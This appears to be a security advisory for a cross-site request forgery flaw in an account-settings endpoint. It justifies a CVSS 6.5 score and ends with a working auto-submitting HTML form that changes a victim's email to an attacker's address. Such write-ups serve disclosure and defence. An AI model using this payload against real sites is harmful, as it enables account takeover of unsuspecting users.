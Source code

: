 # CVSS
**Score**: 6.5 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N \
**Severity**: Medium

The Medium severity rating is justified by the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability can be exploited remotely from any network location, without requiring local access or adjacent network positioning.

- **Low Attack Complexity (AC:L)**: Exploiting this vulnerability is straightforward and doesn't require specialized conditions or significant preparation. An attacker only needs to craft a basic HTTP POST request.

- **No Privileges Required (PR:N)**: The attacker doesn't need any authentication or authorization to launch the attack. They can target any authenticated user regardless of the attacker's own privilege level.

- **User Interaction Required (UI:R)**: This is a critical component of CSRF attacks. The victim must be tricked into visiting a malicious website or clicking a malicious link while they are authenticated to the vulnerable application. This requirement for user interaction somewhat mitigates the risk.

- **Unchanged Scope (S:U)**: The vulnerability affects only the application itself, without extending impact to other components beyond the security scope of the vulnerable component.

- **No Confidentiality Impact (C:N)**: The vulnerability doesn't directly expose sensitive information. It primarily affects data integrity rather than confidentiality.

- **High Integrity Impact (I:H)**: This is the most significant factor. The vulnerability allows unauthorized modification of account settings, which could include critical user preferences, security settings, contact information, or other profile data that could impact the integrity of user accounts and potentially lead to account takeover.

- **No Availability Impact (A:N)**: The vulnerability doesn't directly impact system availability or cause denial of service conditions.

# Exploitation Scenarios
**Scenario 1: Direct CSRF Attack**
An attacker creates a malicious website containing hidden HTML code that automatically submits a form to the vulnerable endpoint when a victim visits:

```html
<html>
  <body onload="document.getElementById('csrf-form').submit();">
    <form id="csrf-form" action="https://acme-corp.com/Account/UpdateAccountSettings" method="POST">
      <input type="hidden" name="Email" value="attacker@evil.com" />
      <input type="hidden" name="NotificationPreference" value="None" />
      <!-- Additional account settings fields -->
    </form>
  </body>
</html>

```
